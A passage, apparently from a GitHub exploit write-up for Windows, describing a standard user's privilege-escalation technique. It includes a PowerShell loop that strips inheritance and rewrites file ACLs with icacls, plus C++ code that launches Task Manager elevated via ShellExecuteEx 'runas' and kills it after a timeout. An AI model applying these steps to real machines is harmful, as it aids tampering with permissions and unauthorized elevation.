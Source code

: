 ```c#
# 4. Explicitly overwrite ACLs on existing files with only (RX,D)
Get-ChildItem $target -Recurse -File | ForEach-Object {
    icacls $_.FullName /inheritance:r
    icacls $_.FullName /grant:r "Authenticated Users:(RX,D)"
}
```

Then, I proceeded to delete what I could.  I kept running into a brick wall and almost concluded this exploit as requiring a reboot.  But I was determined to pull this off without a reboot, and my persistence paid off!

![image](https://github.com/user-attachments/assets/77b3326c-2c5f-40f2-93c0-58119cf90b3d)

The other hurdle I ran into was the fact I couldn't close TaskManager after spawning it using `taskkill /F`.  Why?  Because I'm a standard user trying to kill an elevated process.  But after further research, I managed to work something out!  You can launch elevated processes that close after a set timeout period.  Problem solved!  Check out the code snippet below to see what I'm talking about:

```cpp

bool LaunchElevatedProcessWithTimeout(LPCWSTR executable, LPCWSTR parameters, DWORD timeout_ms)
{
    SHELLEXECUTEINFOW sei = { sizeof(sei) };
    sei.lpVerb = L"runas";  
    sei.lpFile = executable;
    sei.lpParameters = parameters;
    sei.nShow = SW_SHOWNORMAL;
    sei.fMask = SEE_MASK_NOCLOSEPROCESS;

    if (!ShellExecuteExW(&sei))
    {
        DWORD err = GetLastError();
        std::wcerr << L"Failed to launch elevated process. Error: " << err << std::endl;
        return false;
    }

    if (sei.hProcess != NULL)
    {
        DWORD wait_result = WaitForSingleObject(sei.hProcess, timeout_ms);

        if (wait_result == WAIT_TIMEOUT)
        {
            std::wcout << L"Process exceeded timeout, terminating..." << std::endl;
            TerminateProcess(sei.hProcess, 1); 
        }
        else
        {
            std::wcout << L"Process exited within timeout." << std::endl;
        }

        CloseHandle(sei.hProcess);
    }

    return true;
}

LaunchElevatedProcessWithTimeout(L"C:\\Windows\\system32\\taskmgr.exe", L"", 3000);
```
